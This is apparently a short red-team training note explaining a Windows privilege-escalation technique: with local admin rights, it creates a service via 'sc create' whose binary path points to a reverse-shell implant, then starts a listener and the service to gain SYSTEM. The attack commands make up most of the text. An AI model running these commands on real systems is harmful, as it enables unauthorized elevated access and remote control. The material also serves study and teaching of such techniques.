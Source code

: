 # Creating a New Service (admin to system)

this method is used for high level integrity to system level integrity privesc so **you must have local admin access**

this is the most simple way toget system from admin access

create a service and specify the path to your reverse shell payload as service binary path:

```
sc create lol binPath= "c:\RTO\LPE\implant\implant.exe"
```

start a listener and start the service:

```
sc start lol
```

Done!
